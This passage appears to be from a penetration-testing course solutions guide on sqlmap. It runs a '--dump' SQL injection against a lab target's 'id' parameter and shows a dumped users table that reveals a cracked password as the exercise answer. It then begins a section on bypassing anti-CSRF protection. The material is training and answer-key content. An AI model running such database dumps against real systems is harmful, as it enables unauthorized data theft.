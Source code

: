 ## Question 2

### "What's the Kimberly user's password? (Case #1)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #1" to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CPTS/z. images/a50e4ea9a51d5ae16cce0c800b6e71aa_MD5.jpg]]

Thus, the `sqlmap` command will be:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case1.php?id=1' --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case1.php?id=1' --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb                                                                                                                                          
Table: users
[32 entries]
<SNIP>
| 6 | 5143241665092174 | Kimberly Wright | KimberlyMWright@gmail.com | 440-232-3739 | 3136 Ralph Drive | June 18 1972 | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609) | Electrologist |

<SNIP>
```

From the output, students will know that the password of `Kimberly` is `Enizoom1609`.

Answer: `Enizoom1609`

# Bypassing Web Application Protections

## Question 1

### "What's the contents of table flag8? (Case #8)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #8" to notice that they need to exploit the `POST` parameter `id`, while accounting for the `anti-CSRF` protection header:
